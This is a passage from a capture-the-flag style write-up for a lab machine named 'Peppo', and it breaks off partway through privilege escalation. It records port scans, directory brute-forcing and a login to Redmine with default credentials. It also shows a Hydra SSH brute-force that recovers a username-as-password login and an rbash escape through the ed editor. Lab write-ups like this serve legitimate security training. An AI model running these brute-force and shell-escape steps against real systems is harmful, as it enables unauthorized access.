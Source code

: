 # "Peppo" (Hard) - Incomplete

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE  SERVICE           VERSION
22/tcp    open   ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 754c0201fa1e9fcce47b52feba3685a9 (RSA)
|   256 b76f9c2bbffb0462f418c938f43d6b2b (ECDSA)
|_  256 987fb640cebbb557d5d13c65727487c3 (ED25519)
|_auth-owners: root
53/tcp    closed domain
113/tcp   open   ident             FreeBSD identd
|_auth-owners: nobody
5432/tcp  open   postgresql        PostgreSQL DB 12.3 - 12.4
8080/tcp  open   http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
|_http-favicon: Unknown favicon MD5: D316E1622C58825727E7E4E6C954D289
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)
|_http-title: Redmine
| http-robots.txt: 4 disallowed entries 
|_/issues/gantt /issues/calendar /activity /search
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
10000/tcp open   snet-sensor-mgmt?
|_auth-owners: eleanor
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sun, 13 Nov 2022 20:35:42 GMT
|     Connection: close
|     Hello World
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sun, 13 Nov 2022 20:35:36 GMT
|     Connection: close
|_    Hello World
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port10000-TCP:V=7.93%I=7%D=11/13%Time=63715518%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\
SF:nDate:\x20Sun,\x2013\x20Nov\x202022\x2020:35:36\x20GMT\r\nConnection:\x
SF:20close\r\n\r\nHello\x20World\n")%r(HTTPOptions,71,"HTTP/1\.1\x20200\x2
SF:0OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Sun,\x2013\x20Nov\x20202
SF:2\x2020:35:36\x20GMT\r\nConnection:\x20close\r\n\r\nHello\x20World\n")%
SF:r(RTSPRequest,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:nnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSStatusReques
SF:tTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n
SF:\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,2F,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(TLSSession
SF:Req,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\
SF:r\n")%r(Kerberos,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\
SF:x20close\r\n\r\n")%r(SMBProgNeg,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(X11Probe,2F,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nConnection:\x20close\r\n\r\n")%r(FourOhFourRequest,71,"
SF:HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Sun,\
SF:x2013\x20Nov\x202022\x2020:35:42\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:Hello\x20World\n")%r(LPDString,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nConnection:\x20close\r\n\r\n")%r(LDAPSearchReq,2F,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(LDAPBindReq,2F,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(SI
SF:POptions,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close
SF:\r\n\r\n")%r(LANDesk-RC,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConne
SF:ction:\x20close\r\n\r\n")%r(TerminalServer,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OSs: Linux, FreeBSD; CPE: cpe:/o:linux:linux_kernel, cpe:/o:freebsd:freebsd
```

Enumerated UDP ports:

```
Not shown: 1000 open|filtered udp ports (no-response)
```

Notes:

* 21/SSH is open -- Password?
  * Potential users:&#x20;
    * admin
    * root
    * eleanor
* Searchsploited Everything
* Directory bruteforce on both HTTP endpoints
* Nikto 8080 and 10000

## Enumeration

### Port 8080 - HTTP (WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31)))

Directory Bruteforce:

```
gobuster dir -u http://192.168.81.60:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.81.60:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/13 15:40:51 Starting gobuster in directory enumeration mode
===============================================================
/404                  (Status: 200) [Size: 459]
/500                  (Status: 200) [Size: 648]
/activity             (Status: 200) [Size: 7311]
/admin.cgi            (Status: 401) [Size: 0]
/admin.php            (Status: 401) [Size: 0]
/admin.pl             (Status: 401) [Size: 0]
/admin                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fadmin]
/favicon.ico          (Status: 200) [Size: 7886]
/groups               (Status: 302) [Size: 149] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fgroups]
/issues               (Status: 200) [Size: 19696]
/login                (Status: 200) [Size: 5011]
/logout               (Status: 302) [Size: 92] [--> http://192.168.81.60:8080/]
/my                   (Status: 302) [Size: 145] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fmy]
/news                 (Status: 200) [Size: 5361]
/projects             (Status: 200) [Size: 12258]
/queries              (Status: 406) [Size: 4768]
/robots.txt           (Status: 200) [Size: 103]
/roles                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Froles]                                                                                                              
/search               (Status: 200) [Size: 7933]
/settings             (Status: 302) [Size: 151] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fsettings]                                                                                                           
/trackers             (Status: 302) [Size: 151] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Ftrackers]                                                                                                           
/users                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fusers]                                                                                                              
Progress: 4695 / 4714 (99.60%)
```

Default Credentials:&#x20;

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

* I was able to use default credentials on the admin page
* Upon logging in, I had to change my credentials because they expired

Information Page:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">The version at the bottom also says that it is running a 2020 version</mark>

## Exploitation

### Password same as username

Hydra Bruteforce:

```
hydra -L users -P users 192.168.81.60 ssh -t 4
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-13 17:08:10
[DATA] max 4 tasks per 1 server, overall 4 tasks, 9 login tries (l:3/p:3), ~3 tries per task
[DATA] attacking ssh://192.168.81.60:22/
[22][ssh] host: 192.168.81.60   login: eleanor   password: eleanor
```

## Privilege Escalation

### Rbash Jail

<figure><img src="../../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">We need to find a way to escape rbash</mark>

{% embed url="https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/" %}

<mark style="color:yellow;">Escaped</mark>:

```
ed
!'/bin/bash'
```
